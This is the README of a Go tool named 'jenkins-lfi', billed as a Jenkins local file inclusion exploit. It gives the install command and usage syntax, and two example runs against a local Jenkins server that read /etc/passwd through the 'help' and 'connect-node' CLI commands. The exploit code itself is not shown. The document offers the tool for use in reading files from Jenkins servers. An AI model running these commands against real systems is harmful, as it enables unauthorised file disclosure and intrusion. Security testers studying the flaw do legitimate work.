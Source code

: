 # Jenkins LFI exploit

## Install

`go install github.com/gboddin/jenkins-lfi@latest`

## Usage

```sh
jenkins-lfi <target> <command> <filepath>
```

## Examples

```sh
jenkins-lfi http://127.0.0.1:8080 help /etc/passwd
jenkins-lfi http://127.0.0.1:8080 connect-node /etc/passwd
```
